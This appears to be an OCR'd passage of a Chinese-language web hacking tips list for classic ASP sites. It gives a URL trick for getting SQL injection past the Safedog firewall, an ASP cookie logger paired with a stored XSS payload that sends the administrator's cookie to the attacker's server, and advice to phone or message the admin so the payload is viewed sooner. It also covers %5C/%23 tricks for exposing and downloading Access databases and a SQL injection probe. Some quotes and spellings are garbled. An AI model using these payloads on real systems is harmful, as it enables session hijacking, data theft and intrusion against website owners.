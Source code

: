 3.安全狗的注入绕过

常用的如baicai.asp?id=1 and 1=1 是会被安全狗屏蔽的。

但这样就可以突破了：

baicai.asp?0day5.com=.&id=69%20 and 1=1


### 0x27 跨站xss

在网站留言或者能输入信息的地方提交跨站代码，从而盗取管理员cookie，然后用cookie浏览器直接进入后台，将以下代码保存为asp文件，例如1.asp<%

thisfile=Server.MapPath(“cookie.txt”)

msg=Request(“msg”)

set fs=server.CreateObject(“scripting.filesystemobject”)

set thisfile=fs.OpenTextFile(thisfile,8,True,0)

thisfile.WriteLine(“=======cookie:”&msg&”======by:剑眉大侠”)

thisfile.close

set fs=nothing

%>

首先搭建一个asp环境，推荐使用“ASP服务器（摆脱安装IIS）” 再将1.asp放在wwwroot目录下，访问1.asp文件如果提示下载，则说明搭建成功了。

然后在留言板的“您的网站”一处输入：<script>doucument.location=’http://127.0.0.1/1.asp?msg=’document.cookie</script>

当管理员浏览我们提交的留言时，将在wwwroot目录下生成一个cookie.txt文件，这时我们只要访问cookie.txt这个文件，就能知道管理员的cookie是多少了！

然后再使用桂林老兵的cookie欺骗工具或是网页源代码查看分析器，访问网站再输入cookie进行欺骗登录即可！（填cookei的时候记得选择自定义）

小技巧：要想让管理员早点浏览你提交的留言，可以通过打电话，QQ客服等去社工他即可。


### 0x28 爆库

%5C为十六进制的\符号，而数据库大于5.0就可以爆库，若一个网站数据库大于5.0，且是ACESS数据库，若不能注入的注入点是：http://www.xxx.com/rpc/show24.asp?id=127

我们直接把%5C加到rpc后面，因为%5C是爆二级目录，所以应该是这样，http://www.xxx.com/rpc%5c/show24.asp?id=127

而%23是代表#，如果管理员为了防止他人非法下载数据库，而把数据库改成#database.mdb,这样防止了。

如果页面地址为：http://www.xx.com/rpd/#database.mdb ; 把%23替换#就可以下载了，即：http://www.xx.com/rpd/%23database.mdb

还有利用默认的数据库路径 http://www.xxx.com/ 后面加上 conn.asp 如果没有修改默认的数据库路径，也可以得到数据库的路径（注意：这里的/也要换成%5c）

如果你能看到：’E:/ahttc040901/otherweb/dz/database/iXuEr_Studio.asa’不是一个有效的路径。 确定路径名称拼写是否正确，以及是否连接到文件存放的服务器。

这样的就是数据库了。下载时用FLASHGET换成.MDB格式的就行.


### 0x29 利用sql注入点判断网站和数据库是否站库分离 

在注入点后加上：and exists(select * from admin where 1=(Select (case when host_name()=@@servername then 1 else 0 end)))
